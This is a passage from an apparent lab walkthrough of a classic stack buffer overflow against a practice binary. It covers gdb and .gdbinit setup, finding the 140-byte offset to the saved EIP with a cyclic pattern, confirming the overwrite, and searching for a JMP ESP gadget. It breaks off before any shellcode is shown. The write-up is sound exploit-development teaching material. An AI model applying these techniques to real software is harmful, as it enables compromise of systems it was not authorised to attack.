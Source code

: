 ```
gdb exploit_me
set args `shell python payload.py`
```

To automate this, I made a .gdbinit. I also set up another tty for the debugging session
```
set disassembly-flavor intel
lay asm
lay reg
set args `python payload.py`
tty /dev/pts/1
b main
```

After `strcpy` finishes executing, we can use `info frame` to view the current stack frame info. Which also lets us see the return address of the saved EIP

![image](https://hackmd.io/_uploads/HyzpQLEN6.png)

EIP is at 0x37654136, which translates to `7eA6`, however, since the system stores register values using **little endian**, we need to reverse it to `6Ae7` . We do a lookup in the payload string, the section `6Ae7` is at position `140`. Which means we need to have a payload of length 140 to be able to manipulate the saved EIP

```python=
# get_offset.py

string = """Aa0Aa1Aa....y0Zy1Zy2Zy3Zy4Zy5Zy6Zy7Zy8Zy9Zz0Zz1Zz2Zz3Zz4Zz5Zz6Zz7Zz8Zz9"""
substring = '6Ae7'
position = string.find(substring)
print(position)
```

We will now change our payload code to verify this.
```python=
payload = "A"*140 + "B" * 4 
print(payload)
```

The screenshot below verifies that the saved eip is 0x42424242, which is "BBBB" - the 140th byte onwards.
![image](https://hackmd.io/_uploads/S1b0LUENa.png)

### Step 3 - finding pointer to JMP ESP
The instruction we are looking for is `JMP ESP`, we can do so by printing the instructions of the binary and searching for jmp using ` objdump --full-contents -D exploit_me | grep jmp`

![image](https://hackmd.io/_uploads/BJi15L4Vp.png)

As we can see, we dont have the instruction we want to jump to. So we will proceed with the following step

### Step 4 - make your own pointer to shellcode via environemnt variables
